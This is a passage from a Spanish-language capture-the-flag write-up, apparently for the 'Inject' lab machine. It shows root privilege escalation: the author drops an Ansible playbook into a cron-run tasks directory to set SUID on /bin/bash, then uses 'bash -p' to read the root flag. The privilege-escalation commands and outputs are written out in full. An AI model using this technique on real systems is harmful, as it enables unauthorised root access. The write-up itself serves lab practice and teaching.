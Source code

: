 - Como es una tarea cron lo que vamos hacer es asignarle privilegios `SUID` ala `bash` usando el modulo `ansible.builtin.shell` <https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html>.

```bash
phil@inject:/opt/automation/tasks$ cat playbook_2.yml
- hosts: localhost
  tasks:
    - name: SUID
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true
phil@inject:/opt/automation/tasks$
```

- Vamos a esperar a que se ejecute la tarea y ver si las `bash` se le otorga el privilegio `SUID`.

```bash
phil@inject:/opt/automation/tasks$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
phil@inject:/opt/automation/tasks$
```

## Shell as root

- Ahora ya estamos como `root` y vemos la `flag`.

```bash
phil@inject:/opt/automation/tasks$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
5a756880b37d955eee4996c9ef8a0620
bash-5.0#
```
